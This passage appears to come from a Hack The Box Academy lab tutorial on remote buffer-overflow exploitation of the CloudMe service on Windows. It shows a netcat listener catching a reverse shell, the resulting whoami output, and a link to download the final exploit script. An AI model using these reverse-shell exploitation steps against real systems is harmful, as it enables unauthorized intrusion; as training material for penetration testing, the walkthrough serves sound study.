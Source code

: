 We can modify our exploit by copying the output and using it in the `exploit()` function for the `buf` variable.

***

### Remote Exploitation

After that, we can start a `netcat` listener to receive the reverse shell, as follows:

&#x20; Remote Exploitation

```shell-session
root@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

Once we are listening, we can run our payload with `python win32bof_exploit_remote.py` and wait for the remote server to send us a reverse shell if our exploitation was successful.

&#x20; Remote Exploitation

```shell-session
root@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.15.10] from (UNKNOWN) [10.10.10.10] 64539
Microsoft Windows [Version 10.0.19042.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe>whoami
whoami
htb-student
```

As we can see, without having local access to the remote server, we successfully exploited the remote service and received a reverse shell. This shows us that if we properly debug the program, we can build and test our exploit locally, then run it on any remote server with the vulnerable program listening for remote connections.

You can download the final exploit code from the following link. Don't forget to rename it from `.txt` to `.py`.

[Download win32bof\_exploit\_remote\_py.txt here](https://academy.hackthebox.com/storage/modules/89/scripts/win32bof\_exploit\_remote\_py.txt)
